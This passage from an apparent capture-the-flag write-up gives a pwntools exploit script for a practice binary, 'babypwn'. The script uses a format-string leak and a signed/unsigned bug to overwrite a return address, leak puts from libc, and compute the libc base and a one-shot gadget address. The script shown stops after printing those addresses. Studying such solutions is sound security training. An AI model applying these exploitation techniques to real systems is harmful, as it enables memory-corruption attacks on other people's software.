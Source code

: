 Each of these gadgets have their own condition which is needed for the `execve` call to work. I just tried the first one and it worked (if it didn't, I would go down the list), instead of checking to see what conditions were met at the time. With all of these things we can write the exploit:

### Exploit

Here is the exploit. Also with using the LD_PRELOAD I had issues doing it on Ubunutu 18.04, so I just switched to Ubuntu 16.04:

```
# This exploit is based off of: https://devel0pment.de/?p=1191

from pwn import *

# Estbalish the target, the enviornment, and the libc file
target = process('./babypwn', env = {'LD_PRELOAD':'./libc'})
elf = ELF('libc')
gdb.attach(target, gdbscript='b *0x40084e')

# This is just a function to hande the IO for the start
def start(name, coins):
    print target.recvline()
    target.sendline('y')
    print target.recvuntil("name:")
    target.sendline(name)
    print target.recvuntil("How many coins do you have?")
    target.sendline(str(coins))

# setup the format string infoleak and signed/unsigned bug
start("%8$s", -1)

# 6295472 = 0x600fb0 = got address of puts for puts infoleak
# 0 since top 4 bytes of got address are 0 
target.sendline("6295472")
target.sendline("0")

# Fill the space untill the return address
for i in xrange(24):
    target.sendline('+')

# Set the return address to start, to restart the code
target.sendline("4196112")
target.sendline("0")

# Go through the rest of the scanf calls without writing over anything
for i in xrange(227):
    target.sendline('+')

# Can in the infoleak
target.recvline()
leak = target.recvline()

# Filter it out, calculate the libc base and address of oneshot gadget

leak = leak.replace("Tressure Box: ", "")
leak = leak.replace(" created!", "")
leak = leak.replace("\x0d\x0a", "")

leak = u64(leak + "\x00"*(8 - len(leak)))
libc = leak - elf.symbols['puts']
onegadget = libc + 0x45216

print "puts address  is: " + hex(leak)
print "the libc base is: " + hex(libc)
```